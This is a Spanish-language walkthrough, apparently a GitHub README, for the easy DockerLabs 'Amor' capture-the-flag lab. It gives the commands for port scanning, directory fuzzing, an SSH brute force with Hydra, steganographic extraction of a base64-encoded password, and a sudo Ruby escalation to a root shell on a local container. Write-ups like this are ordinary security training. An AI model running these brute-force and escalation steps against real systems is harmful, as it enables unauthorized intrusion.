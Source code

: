 DockerLabs - Reto AMOR
Este laboratorio forma parte de la plataforma DockerLabs y corresponde a un reto de dificultad Fácil. Tiene como objetivo introducir herramientas básicas de pentesting sobre entornos Docker usando técnicas de escaneo, fuerza bruta y esteganografía.

🛠 Prerrequisitos
Sistema base: Kali Linux

Docker instalado:

bash
Copier
Modifier
sudo apt install docker.io
🚚 Despliegue del Laboratorio
Transferir los archivos del reto:

bash
Copier
Modifier
scp -r amor kali@192.168.1.12:/home/kali/Documents/
Descomprimir recursos (si aplica):

bash
Copier
Modifier
unzip amor.zip
Otorgar permisos y ejecutar:

bash
Copier
Modifier
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
🔍 Reconocimiento
Obtener interfaz:

bash
Copier
Modifier
ip add
Descubrimiento de red:

bash
Copier
Modifier
sudo netdiscover -i docker0 -r 172.17.0.0/24
Escaneo de puertos:

bash
Copier
Modifier
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
🌐 Enumeración Web
Accedemos al puerto 80 pero no hay información directa. Se lanza fuzzing:

bash
Copier
Modifier
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
🔐 Ataque por Fuerza Bruta
Usuarios encontrados en el HTML del sitio: carlota y juan.

Ataque SSH usando Hydra:

bash
Copier
Modifier
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
Accedemos vía SSH:

bash
Copier
Modifier
ssh carlota@172.17.0.2
🖼 Extracción de Evidencia
Navegamos al directorio de imágenes:

bash
Copier
Modifier
cd /carlota/Desktop/fotos/vacaciones
Transferimos la imagen:
bash
Copier
Modifier
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
Inspeccionamos el tipo de archivo:

bash
Copier
Modifier
file imagen.jpg
🕵‍♀ Esteganografía
Extraemos información oculta:

bash
Copier
Modifier
steghide extract -sf imagen.jpg
Decodificamos el contenido del archivo secreto:

bash
Copier
Modifier
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
🧑‍💻 Escalamiento de Privilegios
Accedemos como otro usuario:

bash
Copier
Modifier
su oscar
Comprobamos acceso con sudo:

bash
Copier
Modifier
sudo -l
Acceso a bash mediante Ruby:

bash
Copier
Modifier
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Verificamos identidad:

bash
Copier
Modifier
whoami
🧾 Cuadro de Herramientas Utilizadas
Se puede consultar el siguiente archivo Excel para la definición, funcionalidad y casos de uso de cada herramienta empleada: Resumen_Herramientas_DockerLabs.xlsx.

🧰 Comandos y Variantes
(Se sugiere agregar un archivo complementario comandos.md con descripciones detalladas de cada comando, sus parámetros y alternativas.)

🔁 Diagrama de Flujo


📌 Créditos
Laboratorio original: dockerlabs.es 
